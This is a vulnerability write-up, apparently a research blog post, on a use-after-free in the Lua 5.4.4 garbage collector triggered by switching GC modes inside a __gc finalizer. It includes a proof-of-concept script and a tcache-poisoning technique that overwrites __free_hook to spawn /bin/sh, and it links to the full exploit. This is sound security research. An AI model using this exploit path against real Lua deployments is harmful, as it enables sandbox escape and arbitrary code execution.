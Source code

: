 ```yaml
---
title: "8. 0-day exploitable vulnerability in Lua interpreter"
categories:
  - Uncategorized
tags:
  - Lua
---
```

Although many crashes were generated from our fuzzer, not all of them were exploitable. Actually, most of them were just trivial bugs. However, we found an exploitable use-after-free crash. This crash happens during garbage collection in Lua. In this post, we show how the newest Lua interpreter is exploitable(i.e. executing /bin/sh). 

## Introduction

### POC

```lua
collectgarbage("incremental", 1)

for i = 1, 50 do
    local a = setmetatable(
        {},
        {  
            __gc = function()
                collectgarbage("generational")
            end
        }  --table 2
    )
    a[1] = 0xdeadbeef
    b = {0xcafebebe}
end
```

This code can trigger UAF vulnerability which allocate the chunk at address (0xcafebebe) and using this, we can exploit lua interpreter.

## Background knowledge for exploit

### collectgarbage

```lua
collectgarbage("incremental", 1)
```

We can change garbage collection mode by using collectgarbage() function. So, we use collectgarbage("incremental", 1) which change garbage collection mode to incremental mode and set garbage collection step to 1.

### Using finalizer with __gc method

```lua
local a = setmetatable(
  {},
  {  
      __gc = function()
				collectgarbage("generational")
      end
  }
}
```

We use finalizer which is executed when the object was collected during garbage collection process. We can use this with declaring __gc method by using setmetatable function. Then, if we use collectgarbage() function by using finalizer, what will happen? Finally, it change garbage collection mode during the garbage collection process. Unfortunately, Lua doesn't prepare this situataion, so if we use it, we can do something unexpected.

## Exploit Process

### OP_NEWTABLE in lvm.c:1340

allocate three object in one 'for loop'

```c
22	NEWTABLE	5 0 1	; 1
23	EXTRAARG	0	
24	LOADK	6 7	; 3405692606
25	SETLIST	5 1 0	
26	SETTABUP	0 6 5	; _ENV "b"
```

In OP_NEWTABLE, 'new table' marked as white is made, and they are stacked in L→stack. When we make a table in OP_NEWTABLE, g→GCdebt increases from negative to positive. At that time, if g→GCdebt is bigger than zero, it calls luaC_step by checkGC. Then, luaC_step starts garbage collection.

```c
vmcase(OP_NEWTABLE) {
  int b = GETARG_B(i);  /* log2(hash size) + 1 */
  int c = GETARG_C(i);  /* array size */
  Table *t;
  if (b > 0)
    b = 1 << (b - 1);  /* size is 2^(b - 1) */
  lua_assert((!TESTARG_k(i)) == (GETARG_Ax(*pc) == 0));
  if (TESTARG_k(i))  /* non-zero extra argument? */
    c += GETARG_Ax(*pc) * (MAXARG_C + 1);  /* add it to size */
  pc++;  /* skip extra argument */
  L->top = ra + 1;  /* correct top in case of emergency GC */
  t = luaH_new(L);  /* memory allocation */
  sethvalue2s(L, ra, t);
  if (b != 0 || c != 0)
    luaH_resize(L, t, c, b);  /* idem */
  checkGC(L, ra + 1);
  vmbreak;
}
```

### Change garbage collection mode in finalizer

When it first started working, garbage collection mode is "incremental" mode. But when the finalizer starts, the garbage collection mode is changed to "generational" mode. During that process, in luaC_changemode, g→gckind is changed to 1 and conduct genstep, but after it, garbage collecter executes incsteps without knowing the garbage collector mode was changed to generational mode. As a result, everything goes wrong. Because there are some conflicts between the incstep and the genstep in marking the object and setting their age, the objects are marked and their age are set up stragely.

After first garbaged collecter ended, g→GCdebt is still positive number, and some important objects which should not be marked or be aged marked and aged. So it starts again immediately after next OP_NEWTABLE, and atomic function is executed. During this process, lua_State get out of g→gray list.

### Marking Process

After executing several ‘for loop’, generational garbage collection starts when g→GCdebt is bigger than 0. Then, luaC_step calls genstep, genstep calls atomic, and atomic calls propagatemark. So in propagatemark function, it brings GCobject in g→gray list and traverse with it. 

```c
static lu_mem propagatemark (global_State *g) {
  
	GCObject *o = g->gray;
  
	nw2black(o);
  
  g->gray = *getgclist(o);  /* remove from 'gray' list */
  switch (o->tt) {
    case LUA_VTABLE: return traversetable(g, gco2t(o));
    case LUA_VUSERDATA: return traverseudata(g, gco2u(o));
    case LUA_VLCL: return traverseLclosure(g, gco2lcl(o));
    case LUA_VCCL: return traverseCclosure(g, gco2ccl(o));
    case LUA_VPROTO: return traverseproto(g, gco2p(o));
    case LUA_VTHREAD: return traversethread(g, gco2th(o));
    default: lua_assert(0); return 0;
  }
}
```

In normal case without vulnerable code, lua_State(L) is marked as gray and linked to g→gray. So traversethread called in propagatemark conduct traverse step which marks objects in L→stack as gray and links them to g→graylist if it is white.

```c
static int traversethread (global_State *g, lua_State *th) {
  UpVal *uv;
  StkId o = th->stack;
  // ... ommitted
  for (; o < th->top; o++) { /* mark live elements in the stack */
    markvalue(g, s2v(o));
  } 
  // ... omitted
}

#define markvalue(g,o) { checkliveness(g->mainthread,o); \
  if (valiswhite(o)) reallymarkobject(g,gcvalue(o)); }

```

But, vulnerable case with vulnerable code, lua_State is not in g→gray. So traversethread won’t be called and objects in L→stack also will not be marked as gray and linked to g→gray. Eventually when they enter the sweepgen as they are still white, they are freed in freeobj.

```c
static GCObject **sweepgen (lua_State *L, global_State *g, GCObject **p,
                            GCObject *limit, GCObject **pfirstold1) {
  // ... omitted
  int white = luaC_white(g);
  GCObject *curr;
  while ((curr = *p) != limit) {
    if (iswhite(curr)) {  /* is 'curr' dead? */
      lua_assert(!isold(curr) && isdead(g, curr));
      *p = curr->next;  /* remove 'curr' from list */
      freeobj(L, curr);  /* erase 'curr' */
    }
    // ... omitted
  }
  return p;
}
```

### OP_SETLIST in lvm.c:1803

After executing OP_NEWTABLE, OP_SETLIST is executed to insert value in the table.

```c
vmcase(OP_SETLIST) {
  int n = GETARG_B(i);
  unsigned int last = GETARG_C(i);
  Table *h = hvalue(s2v(ra));
  //... omitted
  for (; n > 0; n--) {
    TValue *val = s2v(ra + n);
    setobj2t(L, &h->array[last - 1], val);
    last--;
    luaC_barrierback(L, obj2gco(h), val);
  }
  vmbreak;
}
```

But because the table which was made in OP_NEWTABLE is freed, the value is inserted to freed object in tcache_bin. So it leads to UAF vulnerability.

### Tcachebin Poisoning

We can change the address of next table by writing something on the freed chunk in Tcachebins[idx=0, size=0x20]. So I wrote the __free_hook address in the freed chunk, then I could get the chunk at __free_hook. As a result, I can write something at the address of __free_hook, and If writing system function address in __free_hook, the system function executes when the free() functoin is called. 

When the script ends, free(object) will be changed to system(”/bin/sh”)

### Entire Exploit Code with Docker

[https://github.com/Lua-Project/lua-5.4.4-sandbox-escape-with-new-vulnerability](https://github.com/Lua-Project/lua-5.4.4-sandbox-escape-with-new-vulnerability)
